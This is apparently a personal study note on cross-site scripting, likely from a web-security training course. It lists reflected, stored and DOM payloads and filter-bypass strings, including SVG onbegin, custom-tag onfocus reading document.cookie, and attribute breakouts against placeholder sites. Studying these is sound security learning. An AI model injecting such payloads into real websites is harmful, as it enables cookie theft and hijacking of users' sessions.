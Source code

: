 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> https://insecure-website.com/search?term=`<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(document.domain)</script>`
	- **same tag** -> **new attribute** ->
	   `" autofocus onfocus=alert(document.domain) x="` (`x="` to gracefully repair the following markup)
	  `"onmouseover="alert(1)`
	- **same tag** -> **same attribute** -> `<a href="javascript:alert(document.domain)">`